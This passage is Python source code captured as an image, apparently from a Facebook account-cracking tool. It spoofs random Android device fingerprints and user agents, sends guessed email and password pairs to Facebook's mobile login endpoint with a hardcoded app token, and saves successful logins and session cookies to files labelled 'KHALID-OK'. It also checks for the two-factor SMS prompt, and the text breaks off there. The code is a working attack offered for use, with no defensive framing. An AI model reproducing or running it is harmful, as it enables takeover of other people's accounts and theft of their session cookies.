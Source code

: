                                 application_version_code=str(random.randint(000000000,999999999))
                                fbs=random.choice(fbks)
                                gtt=random.choice(xxxxx)
                                gttt=random.choice(xxxxx)
                                android_version=str(random.randrange(6,13))
                                accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                                fbav = f'{random.randint(111,999)}.0.0.{random.randint(11,99)}.{random.randint(111,999)}'
                                fbbv = str(random.randint(111111111,999999999))
                                android_version = device['android_version']
                                model = device['model']
                                build = device['build']
                                fblc = device['fblc']
                                fbcr = sim_id
                                fbmf = device['fbmf']
                                fbbd = device['fbbd']
                                fbdv = device['fbdv']
                                fbsv = device['fbsv']
                                fbca = device['fbca']
                                fbdm = device['fbdm']
                                fbfw = '1'
                                fbrv = '0'
                                fban = 'FB4A'
                                fbap = random.choice(['414.0.0.30.113','398.0.0.21.105','274.0.0.22.117','316.4.0.15.120','385.0.0.32.114','415.0.0.34.107','414.0.0.30.113','357.0.0.13.112','415.0.0.34.107','408.1.0.16.113','412.0.0.22.115','240.0.0.38.121','414.0.0.30.113'])
                                model = random.choice(['V2057A','I2208','V2228','V1922A','V1916A','V1930A','vivo Y55A','vivo Y55A','I2018','vivo 1707','V2168A','V2228','V1836A','V1930A','V2057A','vivo 1707','V2121A','V2121A','V2147','V1824A'])
                                ua = '[FBAN/FB4A;FBAV/333.0.0.30.119;FBBV/313672640;FBDM/{density=2.0,width=720,height=1456};FBLC/ru_RU;FBRV/314609338;FBCR/MTS RUS;FBMF/realme;FBBD/realme;FBPN/com.facebook.katana;FBDV/RMX2021;FBSV/10;FBOP/1;FBCA/arm64-v8a:;]'
                                device_id = str(uuid.uuid4())
                                adid = str(uuid.uuid4())
                                data = {'email':ids,
                    'password':pas,
                    'cpl':'true',
                    'credentials_type':'password',
                    'error_detail_type':'button_with_disabled',
                    'source':'login',
                    'format':'json',
                    'generate_session_cookies':'1',
                    'generate_analytics_claim':'1',
                    'generate_machine_id':'1'}
                                head = {'accept-encoding': 'gzip, deflate', 
                    'Accept': '*/*', 
                    'Connection': 'keep-alive', 
                    'content-type': 'application/x-www-form-urlencoded', 
                    'Authorization': 'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32', 
                    'x-fb-friendly-name': 'authenticate', 
                    'x-fb-http-engine': 'Liger',
                    'user-agent': ua}
                                url = 'https://b-api.facebook.com/method/auth.login'
                                twf = 'Login approval'+'s are on. '+'Expect an SMS'+' shortly with '+'a code to use'+' for log in'
                                po = requests.post(url,data=data,headers=head,allow_redirects=False).text
                                q = json.loads(po)
                                if 'session_key' in q:
                                        coki = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"])
                                        print('\r\33[1;92m[\033[0;97mKHALID-OK\033[1;92m]\033[1;92m '+ids+'\033[1;37m | \033[1;32m'+pas+ ' '+joined(ids)+' ')
                                        open('/sdcard/KHALID-OK.txt','a').write(ids+'|'+pas+'\n')
                                        open('/sdcard/KHALID-COOKIE.txt', 'a').write(ids+'|'+pas+'|'+coki+'\n')
                                        oks.append(ids)
                                elif twf in str(po):
                                        if 'y' in pcp: